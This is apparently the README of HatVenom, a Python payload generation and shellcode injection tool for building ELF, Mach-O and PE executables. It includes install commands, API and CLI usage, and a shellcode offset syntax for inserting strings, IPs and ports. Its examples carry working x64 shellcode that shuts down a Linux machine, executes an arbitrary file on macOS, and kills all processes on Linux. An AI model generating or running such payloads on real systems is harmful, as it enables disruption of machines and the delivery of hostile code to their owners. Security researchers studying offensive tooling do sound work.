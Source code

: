 # HatVenom

<p>
    <a href="https://entysec.netlify.app">
        <img src="https://img.shields.io/badge/developer-EntySec-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatVenom">
        <img src="https://img.shields.io/badge/language-Python-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatVenom/stargazers">
        <img src="https://img.shields.io/github/stars/EntySec/HatVenom?color=yellow">
    </a>
</p>

HatVenom is a HatSploit native powerful payload generation and shellcode injection tool that provides support for common platforms and architectures.

## Features

* Support for most common executable formats like `elf`, `macho`, `pe`.
* Support for most common architectures like `x64`, `x86`, `aarch64`, `armle`, `mipsle`, `mipsbe`.
* Ability to modify shellcode by changing pre-defined offsets.

## Installation

```shell
pip3 install git+https://github.com/EntySec/HatVenom
```

## Basic functions

There are all HatVenom basic functions that can be used to generate payload, covert data or inject shellcode.

* `generate(file_format, arch, shellcode, offsets={})` - Generates payload for specified target and with specified shellcode.
* `generate_to(file_format, arch, shellcode, offsets={}, filename='a.out')` - Generates payload for specified target and with specified shellcode and saves it to the specified file.

## Generating payload

It's very easy to generate payload for various targets in HatVenom. Let's generate a simple payload that calls shutdown for Linux and save it to `a.out`.

### Examples

```python
from hatvenom import HatVenom

shellcode = (
    b"\x48\x31\xc0\x48\x31\xd2\x50\x6a"
    b"\x77\x66\x68\x6e\x6f\x48\x89\xe3"
    b"\x50\x66\x68\x2d\x68\x48\x89\xe1"
    b"\x50\x49\xb8\x2f\x73\x62\x69\x6e"
    b"\x2f\x2f\x2f\x49\xba\x73\x68\x75"
    b"\x74\x64\x6f\x77\x6e\x41\x52\x41"
    b"\x50\x48\x89\xe7\x52\x53\x51\x57"
    b"\x48\x89\xe6\x48\x83\xc0\x3b\x0f"
    b"\x05"
)

hatvenom = HatVenom()
hatvenom.generate_to('elf', 'x64', shellcode)
```

## Payload offsets

Payload offsets is a variables used to add something to a shelcode on the preprocessing stage. Offsets looks like this:

```shell
\x90\x90\x90\x90:message:string:\x90\x90\x90\x90
```

Where `message` is an offset name and `string` is an offset type. So the basic usage of the offset looks like:

```shell
[shellcode]:[name]:[type]:[shellcode]
```

There are some possible offsets types:

* `string` - Plain text that will be converted to bytes on the preprocessing stage.
* `ip` - IP address that will be converted to bytes on the preprocessing stage.
* `port` - Numeric port that will be converted to bytes on the preprocessing stage.

So if you want to replace offset with bytes instead of `string`, `ip` and `port`, you can use this type:

```shell
[shellcode]:[name]:[shellcode]
```

### Examples

Let's generate a simple payload that executes provided through `file` offset file for macOS and save it to `a.out`.

```python
from hatvenom import HatVenom

shellcode = (
    b"\x48\x31\xf6\x56\x48\xbf"
    b":file:string:"
    b"\x57\x48\x89\xe7\x48\x31"
    b"\xd2\x48\x31\xc0\xb0\x02"
    b"\x48\xc1\xc8\x28\xb0\x3b"
    b"\x0f\x05"
)

hatvenom = HatVenom()
hatvenom.generate_to('macho', 'x64', shellcode, {'file':'//bin/ps'})
```

## HatVenom CLI

HatVenom also has their own command line interface that can be invoked by executing `hatvenom` command:

```
usage: hatvenom [-h] [-f FORMAT] [-a ARCH] [-s SHELLCODE] [--offsets OFFSETS]
                [-o OUTPUT]

HatVenom is a HatSploit native powerful payload generation and shellcode
injection tool that provides support for common platforms and architectures.

optional arguments:
  -h, --help            show this help message and exit
  -f FORMAT, --format FORMAT
                        Platform to generate for.
  -a ARCH, --arch ARCH  Architecture to generate for.
  -s SHELLCODE, --shellcode SHELLCODE
                        Shellcode to inject.
  --offsets OFFSETS     Shellcode offsets.
  -o OUTPUT, --output OUTPUT
                        File to output generated payload.
```

### Examples

Let's generate a simple payload that kills all processes for Linux and save it to `a.out`.

```shell
hatvenom --format elf --arch x64 --shellcode "\x6a\x3e\x58\x6a\xff\x5f\x6a\x09\x5e\x0f\x05"
```

**NOTE:** If you want to use offsets in the CLI version of HatVenom, then you should use `--offsets one=1,two=2`
